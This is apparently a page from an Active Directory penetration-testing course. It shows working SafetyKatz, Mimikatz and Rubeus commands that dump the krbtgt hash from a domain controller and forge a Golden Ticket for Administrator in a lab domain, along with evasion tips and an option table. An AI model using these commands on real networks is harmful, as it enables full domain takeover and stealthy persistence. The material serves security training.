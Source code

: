 
#### Golden Ticket

• A golden ticket is signed and encrypted by the hash of krbtgt
account which makes it a valid TGT ticket.
• The krbtgt user hash could be used to impersonate any user with
any privileges from even a non-domain machine.
• Single password change has no effect on this attack as password
history is maintained for the account.

Execute mimikatz or any of its variant on DC to get krbtgt hash

```
SafetyKatz.exe '"lsadump::lsa /patch"'
Or
SafetyKatz.exe '"lsadump::dcsync /user:us\krbtgt"'
```

On a machine which can reach the DC over network:

```
SafetyKatz.exe '"kerberos::golden /User:Administrator
/domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-
163245708 /krbtgt:b0975ae49f441adc6b024ad238935af5 /startoffset:0
/endin:600 /renewmax:10080 /ptt"'
```

Use Rubeus to forge a Golden ticket with attributes similar to a normal TGT:

```
C:\AD\Tools\Rubeus.exe golden
/aes256:5e3d2096abb01469a3b0350962b0c65cedbbc611c5eac6f3ef6fc1ffa58c
acd5 /sid:S-1-5-21-210670787-2521448726-163245708 /ldap
/user:Administrator /printcmd
```

• Above command generates the ticket forging command. Note that 3 LDAP queries
are sent to the DC to retrieve the values:
     – To retrieve flags for user specified in /user.
     – To retrieve /groups, /pgid, /minpassage and /maxpassage
     – To retrieve /netbios of the current domain
• If you have already enumerated the above values, manually specify as many you can
in the forging command (a bit more opsec friendly).


The Golden ticket forging command looks like this:

```
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args %Pwn%
/aes256:5E3D2096ABB01469A3B0350962B0C65CEDBBC611C5EAC6F3EF6FC1FFA58CACD5
/user:Administrator /id:500 /pgid:513 /domain:us.techcorp.local /sid:S-1-5-
21-210670787-2521448726-163245708 /pwdlastset:"7/5/2019 12:42:09 AM"
/minpassage:1 /logoncount:252 /netbios:US /groups:544,512,520,513 /dc:US-
DC.us.techcorp.local /uac:NORMAL_ACCOUNT,DONT_EXPIRE_PASSWORD /ptt
```

| Option             | Description |
|--------------------|-------------|
| **golden**        | Name of the module |
| **/aes256**:5e3d2096abb01469a3b0350962b0c65cedb | AES256 keys of the krbtgt account. Using AES keys makes the attack more silent. |
| **/user**:Administrator | Username for which the TGT is generated |
| **/id**:500 | User RID (retrieved from the DC) (Default 500) |
| **/pgid**:513 | Primary Group ID (retrieved from the DC) (Default 513) |
| **/groups**:544,512,520,513 | Groups the user is a member of (retrieved from the DC) (Default 520,512,513,519,518) |
| **/domain**:us.techcorp.local | FQDN of the domain (retrieved from the DC) |